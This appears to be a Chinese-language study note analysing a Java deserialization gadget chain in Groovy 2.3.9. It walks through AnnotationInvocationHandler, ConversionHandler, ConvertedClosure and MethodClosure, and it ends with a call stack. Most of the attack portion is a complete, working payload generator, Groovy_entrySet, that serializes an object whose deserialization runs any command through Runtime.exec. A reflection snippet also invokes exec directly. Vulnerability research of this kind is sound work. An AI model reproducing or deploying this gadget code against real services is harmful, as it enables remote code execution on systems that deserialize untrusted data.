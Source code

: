 - 测试Grovvy 版本 v2.3.9 


### InvocationHandler 接口

![image-20211108103208739](source-analysis.assets/image-20211108103208739-16395903238381.png)

#### AnnotationInvocationHandler 类

- 实现了InvocaHandler接口

![image-20211215232032453](source-analysis.assets/image-20211215232032453-16395903266652.png)

##### 构造方法 AnnotationInvocationHandler

- sun.reflect.annotation.AnnotationInvocationHandler#AnnotationInvocationHandler
  - 参数
    - Annotation 类型
    - Map 类型

![image-20211215234351142](source-analysis.assets/image-20211215234351142-16395903291333.png)

##### 成员方法 readObject

- sun.reflect.annotation.AnnotationInvocationHandler#readObject
  - 该方法被反序列化时一定会被调用

![image-20211215232209050](source-analysis.assets/image-20211215232209050-16395903359864.png)

361行：执行了memberValues 属性的 entrySet 方法。

##### 属性 memberValues

- sun.reflect.annotation.AnnotationInvocationHandler#memberValues

#### ConversionHandler 类

- 实现了 InvocationHandler接口

![image-20211108103242423](source-analysis.assets/image-20211108103242423.png)

##### 成员方法 invoke

![image-20211108103517041](source-analysis.assets/image-20211108103517041.png)

#### ConvertedClosure 类

- 这个类是一个通用的适配器，用来适配一个闭包到任意的Java接口

![image-20211108103833882](source-analysis.assets/image-20211108103833882.png)

##### 成员方法 invokeCustom

- org.codehaus.groovy.runtime.ConvertedClosure#invokeCustom
  - ConvertedClosure的method参数必须等于触发动态代理时调用的方法名

![image-20211108103854979](source-analysis.assets/image-20211108103854979.png)

### Closure 抽象类

![image-20211215233015850](source-analysis.assets/image-20211215233015850.png)

#### MethodClosure 类

- org.codehaus.groovy.runtime.MethodClosure
  - 使用一个闭包表示的一个类上的方法，这个方法可以在任何时候被调用

![image-20211214204856501](source-analysis.assets/image-20211214204856501.png)

##### 成员方法 doCall

- 通过方法 `InvokerHelper.invokeMethod()` 进行方法调用

```java
package groovy;

import org.codehaus.groovy.runtime.MethodClosure;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class doCall {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
        Method doCallM  = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
        doCallM.setAccessible(true);
        doCallM.invoke(methodClosure, "calc");
    }
}
```

可反射调用执行系统命令，如下图：

![image-20211215225939460](source-analysis.assets/image-20211215225939460.png)





前置知识

- Groovy执行命令的语法：`"command".execute()`

- 当通过动态代理对象调用一个方法时候，该方法的调用就会被转发到实现InvocationHandler接口类的invoke方法来调用

- newProxyInstance方法的三个参数：

  - loader:  用哪个类加载器去加载代理对象
  - interfaces:  动态代理类需要实现的接口

  - h:  动态代理方法在执行时，会调用h里面的invoke方法去执行



构造payload

```java
// 对cmd字符串执行execute命令的闭包
MethodClosure methodClosure = new MethodClosure(cmd,"execute");
// 适配entrySet方法的ConvertedClosure闭包
ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
// 创建动态代理
Map<?, ?> mapProxy = (Map<?, ?>) Proxy.newProxyInstance(Groovy_entrySet.class.getClassLoader(), new Class< ? >[] { Map.class }, closure);
// 创建AnnotationInvocationHandler实例（通过反射）
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructors()[0];
constructor.setAccessible(true);
Object annotationInvocationHandler = constructor.newInstance(Retention.class, mapProxy);
```

解释如下：

当annotationInvocationHandler对象的序列化数据被反序列化时，会调用readObject()

- readObject() 调用 memberValues.entrySet()
  - ConversionHandler.Invoke() 调用 ConvertedClosure.invokeCustom()
    - getDelegate()).call() 调用 getMetaClass().invokeMethod() // 递归调用
      - method.doMethodInvoke() 调用 ProcessGroovyMethods.execute()
        - Runtime.getRuntime().exec()

最终gadget如下

```java
import java.io.*;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.lang.reflect.Constructor;
import java.lang.annotation.Retention;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

public class Groovy_entrySet {
    public static void main(String[] args){
        Groovy_entrySet.generatePayload("calc");
    }
    public static void generatePayload(String cmd){
        try{
            MethodClosure methodClosure = new MethodClosure(cmd,"execute");
            ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
            Map<?, ?> mapProxy = (Map<?, ?>) Proxy.newProxyInstance(Groovy_entrySet.class.getClassLoader(), new Class< ? >[] { Map.class }, closure);
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor constructor = clazz.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            Object annotationInvocationHandler = constructor.newInstance(Retention.class, mapProxy);
            ByteArrayOutputStream byteArray = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArray);
            objectOutputStream.writeObject(annotationInvocationHandler);
            objectOutputStream.close();
            /**
             * 笔记：打印字节数组
             *       System.out.print(Arrays.toString(data));
             */
            byte[] data = byteArray.toByteArray();
            // 将字节数组反序列化为对象
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果

![image-20211216014448682](source-analysis.assets/image-20211216014448682.png)

调用栈

```java
execute:530, ProcessGroovyMethods (org.codehaus.groovy.runtime)
doMethodInvoke:-1, dgm$748 (org.codehaus.groovy.runtime)
invokeMethod:1207, MetaClassImpl (groovy.lang)
invokeMethod:1074, MetaClassImpl (groovy.lang)
invokeMethod:1016, MetaClassImpl (groovy.lang)
call:423, Closure (groovy.lang)
invokeCustom:51, ConvertedClosure (org.codehaus.groovy.runtime)
invoke:103, ConversionHandler (org.codehaus.groovy.runtime)
entrySet:-1, $Proxy0 (com.sun.proxy)
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:2122, ObjectInputStream (java.io)
readOrdinaryObject:2013, ObjectInputStream (java.io)
readObject0:1535, ObjectInputStream (java.io)
readObject:422, ObjectInputStream (java.io)
generatePayload:37, Groovy_entrySet (groovy)
main:14, Groovy_entrySet (groovy)
```
